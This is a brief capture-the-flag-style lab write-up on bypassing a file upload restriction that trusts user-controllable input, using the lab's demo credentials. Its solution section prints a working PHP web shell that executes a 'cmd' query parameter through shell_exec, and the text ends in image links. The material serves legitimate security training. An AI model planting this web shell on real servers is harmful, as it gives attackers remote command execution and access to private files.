 **Instructions:**
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`


**Solution:**
Once you enter this lab you have the credentials with username : wiener | password : peter
and the you have the file upload but relies on checking user-controllable input to verify this
for this you can try to upload file that content the shell you can create this

```PHP
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```
  
![](../assets/1.png)

![](../assets/Pasted%20image%2020251017232527.png)
